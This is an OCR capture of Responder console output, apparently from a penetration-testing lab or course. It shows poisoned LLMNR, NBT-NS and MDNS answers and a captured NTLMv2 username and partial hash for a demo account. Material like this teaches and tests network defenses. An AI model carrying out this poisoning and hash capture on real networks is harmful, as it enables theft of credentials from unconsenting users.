 ```shell-session
    HTTPS server               [ON]
    WPAD proxy                 [OFF]                                  
    Auth proxy                 [OFF]
    SMB server                 [ON]                                   
    Kerberos server            [ON]                                   
    SQL server                 [ON]                                   
    FTP server                 [ON]                                   
    IMAP server                [ON]                                   
    POP3 server                [ON]                                   
    SMTP server                [ON]                                   
    DNS server                 [ON]                                   
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]                                   
                                                                                   
[+] HTTP Options:                                                                  
    Always serving EXE         [OFF]                                               
    Serving EXE                [OFF]                                               
    Serving HTML               [OFF]                                               
    Upstream Proxy             [OFF]                                               

[+] Poisoning Options:                                                             
    Analyze Mode               [OFF]                                               
    Force WPAD auth            [OFF]                                               
    Force Basic Auth           [OFF]                                               
    Force LM downgrade         [OFF]                                               
    Fingerprint hosts          [OFF]                                               

[+] Generic Options:                                                               
    Responder NIC              [tun0]                                              
    Responder IP               [10.10.14.198]                                      
    Challenge set              [random]                                            
    Don't Respond To Names     ['ISATAP']                                          

[+] Current Session Variables:                                                     
    Responder Machine Name     [WIN-2TY1Z1CIGXH]   
    Responder Domain Name      [HF2L.LOCAL]                                        
    Responder DCE-RPC Port     [48162] 

[+] Listening for events... 

[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Domain Master Browser)
[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Browser Election)
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[*] [LLMNR]  Poisoned answer sent to 10.10.110.17 for name mysharefoder
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : WIN7BOX\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:997b18cc61099ba2:3CC46296B0CCFC7A231D918AE1DAE521:0101000000000000B09B51939BA6D40140C54ED46AD58E89<SNIP>
```
